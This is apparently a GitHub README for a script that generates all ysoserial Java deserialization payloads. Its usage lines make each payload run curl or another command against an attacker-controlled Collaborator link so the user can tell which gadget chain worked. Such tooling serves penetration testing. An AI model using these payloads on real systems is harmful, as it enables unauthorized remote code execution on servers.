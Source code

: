 # ysoserial-generate-all-payloads
### \-> Generates all ysoserial payloads, and can also lets you know which payload worked.
### Usage:
```Bash
./generate_payloads.sh <commands>
./generate_payloads.sh --curl 'collaborator-link' #Adds payload name as a subdomain, so you can check which payload worked.
./generate_payloads.sh --request 'curl' 'collaborator-link' #Same as --curl, but you can choose the command to use. E.g. use ping instead of curl.
```
### Script: [here](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/blob/main/generate_payloads.sh)
### Payloads list: [here](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/blob/main/payloads.txt)

### Also, simplifies the process of identifying the working payload by appending the payload name to your Collaborator link as a subdomain.

- ![63da3eeffa1e509d262abd53b06081ec.png](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/assets/15943431/00e679ac-72a4-4ce2-abf4-1ee0aa1b0eca)
- ![c8f4434126d5a991d19ece6635a66b9b.png](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/assets/15943431/7bafa210-30a7-46ce-a64e-a59ad1faa63e)
- ![78fee57aa122b970f939e482faeb3703.png](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/assets/15943431/b39eeca3-7214-455a-9ecc-874087229b1b)
